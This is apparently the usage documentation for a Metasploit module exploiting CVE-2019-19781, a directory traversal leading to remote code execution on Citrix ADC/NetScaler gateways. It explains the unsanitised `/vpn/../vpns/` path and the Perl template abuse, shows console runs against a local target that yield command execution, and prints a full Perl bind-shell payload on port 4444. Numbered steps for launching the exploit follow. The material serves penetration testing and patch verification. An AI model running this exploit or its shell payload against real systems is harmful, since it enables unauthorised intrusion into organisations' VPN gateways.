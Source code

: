 ## Introduction

A directory traversal was discovered in Citrix Application Delivery Controller (ADC), aka NetScaler, and Gateway 10.5, 11.1, 12.0, 12.1, and 13.0.

When the NSPPE receives a request for `GET /vpn/index.html`, it is supposed to send this request to Apache, which processes it. However, by making the request `GET /vpn/../vpns/` (which is not sanitized), Apache transforms the route into `GET /vpns/` and processes this last request normally.

This `/vpns/` directory is interesting because it contains Perl code. The script `newbm.pl` creates an array containing information from several parameters, then calls the `filewrite` function, which writes the content to an XML file on disk.

A malicious attacker can execute arbitrary commands remotely by creating a corrupted XML file that uses the Perl Template Toolkit in part of payload.

```
msf exploit(freebsd/http/citrix_dir_traversal_rce) > run

[*] Using auxiliary/scanner/http/citrix_dir_traversal as check
[+] http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf - The target is vulnerable to CVE-2019-19781.
[+] Obtained HTTP response code 200 for http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf. This means that access to /vpn/../vpns/cfg/smb.conf was obtained via directory traversal.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable
[*] Yeeting cmd/unix/generic payload at 127.0.0.1:8080
[*] Generated payload: id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)

[!] This exploit may require manual cleanup of '/netscaler/portal/templates/mdjLHiHtIYmh.xml' on the target
[!] This exploit may require manual cleanup of '/var/tmp/netscaler/portal/templates/mdjLHiHtIYmh.xml.ttc2' on the target
[*] Exploit completed, but no session was created.
msf exploit(freebsd/http/citrix_dir_traversal_rce) > set payload cmd/unix/bind_perl
payload => cmd/unix/bind_perl
msf exploit(freebsd/http/citrix_dir_traversal_rce) > run

[*] Using auxiliary/scanner/http/citrix_dir_traversal as check
[+] http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf - The target is vulnerable to CVE-2019-19781.
[+] Obtained HTTP response code 200 for http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf. This means that access to /vpn/../vpns/cfg/smb.conf was obtained via directory traversal.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable
[*] Yeeting cmd/unix/bind_perl payload at 127.0.0.1:8080
[*] Generated payload: perl -MIO -e '$p=fork();exit,if$p;foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(LocalPort,4444,Reuse,1,Listen)->accept;$~->fdopen($c,w);STDIN->fdopen($c,r);while(<>){if($_=~ /(.*)/){system $1;}};'
[!] No response to GET KdlZHSNjZQzdSCKAusgAnnbPvTMLhXRxiEydEotJP.xml request
[*] Started bind TCP handler against 127.0.0.1:4444
[*] Command shell session 1 opened (127.0.0.1:51106 -> 127.0.0.1:4444) at 2020-01-13 20:50:45 -0600
[+] Deleted /netscaler/portal/templates/KdlZHSNjZQzdSCKAusgAnnbPvTMLhXRxiEydEotJP.xml
[+] Deleted /var/tmp/netscaler/portal/templates/KdlZHSNjZQzdSCKAusgAnnbPvTMLhXRxiEydEotJP.xml.ttc2

id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/freebsd/http/citrix_dir_traversal_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set LHOST [IP]`
6. Do: `set VERBOSE true`
7. Do: `run`

## Targets

```
Id  Name
--  ----
0   Python
1   Unix Command
```

## Advanced options

**ForceExploit**

Override check result.

## References

1. <https://www.mdsec.co.uk/2020/01/deep-dive-to-citrix-adc-remote-code-execution-cve-2019-19781/>
2. <https://www.exploit-db.com/exploits/47901>
3. <https://www.exploit-db.com/exploits/47902>
